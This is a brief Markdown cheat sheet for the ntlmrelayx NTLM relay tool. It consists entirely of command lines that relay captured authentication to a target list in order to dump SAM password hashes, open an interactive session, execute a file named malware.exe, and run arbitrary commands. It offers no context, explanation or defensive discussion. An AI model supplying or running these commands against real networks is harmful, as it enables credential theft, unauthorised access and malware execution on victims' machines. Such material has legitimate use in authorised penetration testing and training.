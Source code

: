 # ntlmrelayx

## dump SAM

`ntlmrelayx.py -tf targets.txt -smb2support`

## interactive session

`ntlmrelayx.py -tf targets.txt -smb2support -i`

## Execute a file

`ntlmrelayx.py -tf targets.txt -smb2support -e malware.exe`

## Execute a command

`ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`
